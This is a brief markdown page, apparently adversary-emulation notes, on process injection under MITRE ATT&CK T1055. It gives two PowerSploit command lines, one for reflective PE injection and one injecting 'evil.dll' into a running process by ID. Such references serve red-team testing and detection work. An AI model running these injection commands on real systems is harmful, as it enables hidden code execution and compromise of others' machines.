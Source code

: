 ## Process Injection

MITRE ATT&CK Technique: [T1055](https://attack.mitre.org/wiki/Technique/T1055)

Examples and code resource for [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/CodeExecution)

### PowerShell Invoke-ReflectivePEInjection

Input:

    C:\Users\Public\PowerSploit-master\PowerSploit-master\CodeExecution\Invoke-ReflectivePEInjection.ps1

### Powershell Invoke-DllInjection

Input:

    C:\Users\Public\PowerSploit-master\PowerSploit-master\CodeExecution\Invoke-DllInjection.ps1 -ProcessID 4274 -Dll evil.dll
